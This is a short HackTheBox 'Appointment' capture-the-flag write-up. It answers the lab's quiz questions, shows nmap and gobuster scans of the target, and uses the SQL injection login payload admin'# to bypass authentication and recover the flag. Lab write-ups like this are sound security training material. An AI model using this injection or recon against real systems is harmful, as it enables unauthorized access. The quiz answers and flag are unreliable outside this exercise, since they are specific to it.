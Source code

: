 ```yaml
---
title: HTB - Appointment
date: 2023-08-17
categories: [HackTheBox, Machines]
tags: [nmap, gobuster, sqli]
---
```


What does the acronym SQL stand for?

`Structured Query Language`

What is one of the most common type of SQL vulnerabilities?

`sql injection`

What is the 2021 OWASP Top 10 classification for this vulnerability?

`A03:2021-Injection`

What does Nmap report as the service and version that are running on port 80 of the target?

`Apache httpd 2.4.38 ((Debian))`

What is the standard port used for the HTTPS protocol?

`443`

What is a folder called in web-application terminology?

`directory`

What is the HTTP response code is given for 'Not Found' errors?

`404`

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

`dir`

What single character can be used to comment out the rest of a line in MySQL?

`#`

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

`Congratulations`

Submit root flag

```bash
$ nmap -sV -p- <ip>
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

$ gobuster dir -u <ip>:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/images               (Status: 301) [Size: 317] [--> http://10.129.146.191/images/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.146.191/css/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.146.191/js/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.146.191/vendor/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.146.191/fonts/]
/server-status        (Status: 403) [Size: 279]
...

$ firefox <ip>:80 &
```

login: `admin'#`

password: `abc`

flag: `e3d0796d002a446c0e622226f42e9672`
